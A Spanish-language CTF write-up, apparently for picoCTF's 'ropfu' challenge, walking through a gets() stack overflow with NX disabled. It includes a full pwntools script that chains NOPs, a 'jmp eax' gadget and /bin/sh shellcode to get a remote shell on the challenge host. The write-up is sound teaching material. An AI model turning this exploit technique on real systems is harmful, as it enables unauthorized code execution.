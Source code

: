 #pwn #writeup #ctf

# Reconocimiento

Se nos ofrece un binario *vuln* y su código fuente:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 16

void vuln() {
  char buf[16];
  printf("How strong is your ROP-fu? Snatch the shell from my hand, grasshopper!\n");
  return gets(buf);

}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  
}
```

Si utilizamos [[checksec]]:

```bash
checksec --file=vuln
```
```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   2229 Symbols	  No
```

Tenemos una entrada por *gets* en la función *vuln*, de la que podríamos aprovecharnos. Podemos ejecutar código del stack (*NX disabled*), sin embargo tenemos una protección [[canary]] (que saltaría con cualquier función, aunque, probablemente *vuln* no la tenga). Además, el binario es *statically linked*, por lo que trae todas las dependencias incluidas.

# Explotación

Como utilizamos *gets*, estamos guardando la información en el *eax* (y recordemos que podemos ejecutar código del stack). Podríamos tratar de mandar un código malicioso, seguido de un *offset* en la parte del canary y un *jmp eax* en el *return address* que salte al inicio y lo ejecute.

Con [[ropper]] podemos sacar el gadget que necesitamos:

```bash
ropper --file vuln --search "jmp"
```
```c
0x0805333b: jmp eax;
```

Con [[gdb]]-[[pwndbg]] sacaremos el *offset* hasta el *return address*, en este caso 28.

Así podemos crear un *autopwn.py*:

```python
#! /bin/python3

from pwn import *
import sys

binary = './vuln'
elf = ELF(binary)

def start():
    if args.REMOTE:
        return remote('saturn.picoctf.net', 53607)
    else: return process(binary)

jmp_eax = 0x0805333b

payload = b'\x90' * 26
payload += b'\xeb\x04'
payload += p32(jmp_eax)

payload += asm(shellcraft.i386.linux.sh())

with open("output.bin", "wb") as file:

    file.write(payload)

io = start()

io.recvuntil("grasshopper!")
io.sendline(payload)

io.interactive()
```

Como *offset* metemos 26 *nops* y la cadena `\xeb\x04`, que salta 4 bytes, de forma que al ejecutarse, no ejecutemos el contenido de  la dirección de retorno (lo que llevaría a comportamientos indefinidos):

![[ropfu1.png]]

Al ejecutar con el parámetro *REMOTE* conseguiríamos una shell.